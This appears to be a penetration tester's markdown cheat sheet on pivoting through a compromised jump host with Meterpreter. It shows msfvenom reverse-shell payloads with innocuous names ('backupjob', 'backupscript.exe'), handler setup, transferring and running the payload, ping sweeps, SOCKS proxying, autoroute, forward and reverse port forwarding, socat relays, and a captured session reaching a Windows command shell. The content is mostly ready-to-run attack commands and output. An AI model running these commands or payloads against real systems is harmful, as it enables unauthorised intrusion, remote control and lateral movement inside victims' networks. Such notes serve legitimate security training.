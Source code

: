 # Meterpreter Tunneling

Like SSH tunneling except all handled through the convenience of Meterpreter.

## Payload for Jump Host

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

### Start multi hander

```bash
msf6 > use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp

run
```

### Transfer and execute

```bash
scp backupjob ubuntu@<ipAddressofTarget>:~/

# Jump host
./backupjob
```

### Ping sweep attached network

```bash
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

# Bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

# PowerShell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```

ICMP request may be blocked, in that case use meterpreters built in proxy.

## MSF's SOCKS Proxy

```bash
msf6 > use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a

run
[*] Auxiliary module running as background job 0.

## Confirm
jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

**Add line to /etc/proxychains.conf if needed**

### Create Routes with AutoRoute

Tell our socks_proxy module to route all the traffic via our Meterpreter session. Have Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

```bash
msf6 > use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

```bash
meterpreter > run autoroute -s 172.16.5.0/23
```

### Check route configuration

```bash
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
   
# Test proxy and routing
$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

## Port Forwarding

Enable a listener on our attack host and request Meterpreter to forward  all the packets received on this port via our Meterpreter session to a  remote host on the 172.16.5.0/23 network.

### Creating Local TCP Relay

Example to create a remote rdp connection

```bash
# Meterpreter
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

# Windows target through local host
$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123

# Check connections
$ netstat -antp
```

## Reverse Port Forwarding

Start a listener on a new port on our attack host for Windows and  request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

### Reverse Port Forwarding Rules

```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

### Configuring & Starting multi/handler

```bash
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 

```

### Windows Payload

Create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that was configured.

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

### Establishing the Meterpreter session

```bash
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

## Socat Redirection

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It  acts as a redirector that can listen on one host and port and forward  that data to another IP address and port.

```bash
# Reverse shell listener <-- to attack host
webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

# Bind shell listener --> windows host
webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```


